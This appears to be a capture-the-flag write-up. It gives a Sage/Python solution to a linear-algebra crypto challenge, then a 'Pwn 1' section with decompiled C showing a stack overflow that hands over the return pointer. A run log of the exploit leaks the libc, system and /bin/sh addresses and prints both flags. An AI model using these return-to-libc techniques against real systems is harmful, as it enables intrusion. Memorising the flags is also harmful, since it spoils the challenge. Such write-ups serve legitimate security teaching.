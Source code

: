 ```python
x1 = mat1*vec([0,0,2,2])
x2 = mat2*vec([0,0,2,2])

ares = x1[0].numerator() * x2[0].denominator() - x1[0].denominator() * x2[0].numerator()
bres = x1[1].numerator() * x2[1].denominator() - x1[1].denominator() * x2[1].numerator()
z = gcd(ares, bres)
print(z)

#for f in factor(z): 
#    print(f)

flag=[
4359033484857692329373218835891273223514277989389887380295361415464889770166389701631419427834781246508138660575223898424123475008882009518656242889895631,
1632584625552577634192244416449206016411410634392809925962891108131606575665762171492327868243444711605020193366871285556543848503175607073462086340098314
]
p = 9653752804826064052029859504357788343793666970085809058730805328470766932451241626459959462175810916447560141687115090556455161113988122849830800950814781
a = inverse_mod((inverse_mod(x1[0].denominator(), p) * x1[0].numerator()) % p, p)
b = inverse_mod((inverse_mod(x1[1].denominator(), p) * x1[1].numerator()) % p, p)
a = inverse_mod((inverse_mod(2 * a, p) * (flag[0] + flag[1])), p)
b = inverse_mod(2 * b, p) * (flag[0] - flag[1]) - 1
flag = (a * b - 1337) % p

print(long_to_bytes(flag))
```

Flag: `ptm{l1n3ar_alg3br4_at_1t5_b3s7!}`

## Pwn 1

- We are given an ELF binary with no stack canaries protections and no PIC.

- The vulnerability lies in this function

```c
void __cdecl sub_400BED()
{
  __int64 v0; // [rsp+20h] [rbp-20h]
  __int64 v1; // [rsp+28h] [rbp-18h]
  __int64 v2; // [rsp+30h] [rbp-10h]
  __int64 v3; // [rsp+38h] [rbp-8h]
  __int64 vars0; // [rsp+40h] [rbp+0h]
  __int64 retaddr; // [rsp+48h] [rbp+8h]

  sub_400A68(&v0);
  sub_400ABF(&v0);
  puts("Now give me your block data: ");
  HIDWORD(v3) = read(0, &qword_6020E0, 0x80uLL);
  if ( !(unsigned int)sub_400B14((__int64)&qword_6020E0, SHIDWORD(v3), (__int64)&v0) )
  {
    puts("Go mine somewhere else!!\n");
    exit(1);
  }
  v0 = qword_602100;
  v1 = qword_602108;
  v2 = qword_602110;
  v3 = qword_602118;
  vars0 = qword_602120;
  retaddr = qword_602128; // WE CONTROL THE RETURN POINTER
  puts("Block successfully mined. Bye!\n");
}
```


[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7